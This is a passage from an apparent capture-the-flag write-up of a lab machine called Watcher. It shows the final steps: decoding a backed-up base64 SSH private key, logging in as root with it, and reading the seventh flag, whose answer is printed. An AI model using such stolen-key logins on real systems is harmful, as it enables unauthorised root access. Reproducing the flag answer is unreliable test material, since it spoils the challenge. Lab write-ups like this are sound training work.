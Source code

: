 There is a base64 encoded file in `/opt/backups` that, once decoded, is a SSH private key, likely for `root`, as this is the final flag:

~~~
will@watcher:/home/will$ cat /opt/backups/key.b64 | base64 -d > /home/will/ssh.key
<pt/backups/key.b64 | base64 -d > /home/will/ssh.key
~~~

Transfer the SSH key to Kali, give it the proper privileges and connect as root.

~~~
kali@kali:/data/Watcher/files$ chmod 600 ssh.key 
kali@kali:/data/Watcher/files$ ssh -i ssh.key root@10.10.85.119
~~~

Now connected as `root`, we can get the final flag:

~~~
root@watcher:~# cd /root
root@watcher:~# ll
total 40
drwx------  6 root root 4096 Dec  3 02:32 ./
drwxr-xr-x 24 root root 4096 Dec 12 15:22 ../
lrwxrwxrwx  1 root root    9 Dec  3 02:32 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  2 root root 4096 Dec  3 01:42 .cache/
-rw-r--r--  1 root root   31 Dec  3 02:26 flag_7.txt
drwx------  3 root root 4096 Dec  3 01:42 .gnupg/
drwxr-xr-x  3 root root 4096 Dec  3 01:41 .local/
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   66 Dec  3 02:07 .selected_editor
drwx------  2 root root 4096 Dec  3 02:04 .ssh/
root@watcher:~# cat flag_7.txt 
FLAG{who_watches_the_watchers}
~~~

Flag #7: `FLAG{who_watches_the_watchers}`

